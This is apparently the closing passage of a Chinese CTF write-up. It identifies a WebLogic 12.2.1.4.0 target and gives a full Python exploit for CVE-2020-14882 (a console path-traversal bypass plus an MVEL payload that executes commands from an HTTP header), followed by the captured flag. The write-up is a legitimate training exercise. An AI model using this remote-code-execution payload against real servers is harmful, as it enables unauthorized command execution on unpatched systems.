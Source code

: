 在响应中可以看到如下信息。

```plain text
WebLogic Server Version: 12.2.1.4.0
```

这个版本正好在 `CVE-2020-14882` 的范围内，除此之外尝试用 `CVE-2021-2109` 去攻击但没有成功，步骤停在了 redirecting。写出如下脚本来进行攻击。

```python
import socket

sSocket = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
sSocket.connect(("node4.buuoj.cn", 26319))
payload = b'''HEAD / HTTP/1.1\r\nHost: node4.buuoj.cn\r\n\r\nGET /console/css/%252e%252e%252fconsolejndi.portal?test_handle=com.tangosol.coherence.mvel2.sh.ShellSession(%27weblogic.work.ExecuteThread%20currentThread%20=%20(weblogic.work.ExecuteThread)Thread.currentThread();%20weblogic.work.WorkAdapter%20adapter%20=%20currentThread.getCurrentWork();%20java.lang.reflect.Field%20field%20=%20adapter.getClass().getDeclaredField(%22connectionHandler%22);field.setAccessible(true);Object%20obj%20=%20field.get(adapter);weblogic.servlet.internal.ServletRequestImpl%20req%20=%20(weblogic.servlet.internal.ServletRequestImpl)obj.getClass().getMethod(%22getServletRequest%22).invoke(obj);%20String%20cmd%20=%20req.getHeader(%22cmd%22);String[]%20cmds%20=%20System.getProperty(%22os.name%22).toLowerCase().contains(%22window%22)%20?%20new%20String[]{%22cmd.exe%22,%20%22/c%22,%20cmd}%20:%20new%20String[]{%22/bin/sh%22,%20%22-c%22,%20cmd};if(cmd%20!=%20null%20){%20String%20result%20=%20new%20java.util.Scanner(new%20java.lang.ProcessBuilder(cmds).start().getInputStream()).useDelimiter(%22\\\\A%22).next();%20weblogic.servlet.internal.ServletResponseImpl%20res%20=%20(weblogic.servlet.internal.ServletResponseImpl)req.getClass().getMethod(%22getResponse%22).invoke(req);res.getServletOutputStream().writeStream(new%20weblogic.xml.util.StringInputStream(result));res.getServletOutputStream().flush();}%20currentThread.interrupt(); HTTP/1.1\r\nHost:weblogic\r\ncmd: /readflag\r\n\r\n'''
sSocket.send(payload)
sSocket.settimeout(2)
response = sSocket.recv(2147483647)
while len(response) > 0:
    print(response.decode())
    try:
        response = sSocket.recv(2147483647)
    except:
        break
sSocket.close()
```

运行脚本后可在响应中找到 flag。

```flag
flag{ff176972-bf1c-49ff-b7b5-36ef338179a2}
```

## Summary

Java Web 还是蛮好玩的，就是 Misc 好像没啥新东西。下周继续加油学学 Java Web。

